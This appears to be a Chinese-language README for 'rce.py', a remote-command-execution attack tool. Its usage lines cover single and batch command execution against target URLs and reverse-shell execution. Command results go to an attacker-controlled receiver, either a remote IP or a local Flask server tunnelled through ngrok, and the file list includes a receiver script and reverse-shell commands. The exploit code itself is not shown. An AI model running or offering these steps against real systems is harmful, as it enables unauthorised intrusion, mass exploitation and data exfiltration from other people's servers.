




usage
```text
单个shell执行 (本地flask开启并指定ngrok穿透的域名)
python rce.py -s -t <ngrok_domain> -u <目标url>

单个shell执行 (指定远程接收端)
python rce.py -t <远程接收端的IP> -u <目标url>

反弹shell命令执行
python rce.py -u <目标url> -r

批量shell执行 (本地flask开启并指定ngrok穿透的域名)
python rce.py  -s -t <ngrok_domain> -f url.txt -c <要执行的命令>

批量shell执行 (指定远程接收端)
python rce.py -t <远程接收端的IP> -f url.txt -c <要执行的命令>
Usage: rce.py [options]

Options:
  -h, --help  show this help message and exit
  -r          反弹shell语句执行
  -s          flask+nggok代理
  -u URL      目标url
  -f FILE     目标txt
  -t HOST     命令结果返回url/domain
  -c CMD      批量时要执行的命令
```

ngrok下载:https://ngrok.com/download  

FileList:  
* http_server.py - 远端接收程序
* reverseshell.txt - 反弹shell要执行的命令

Example:









缺点:自己起的flask需要手动ctrl+c结束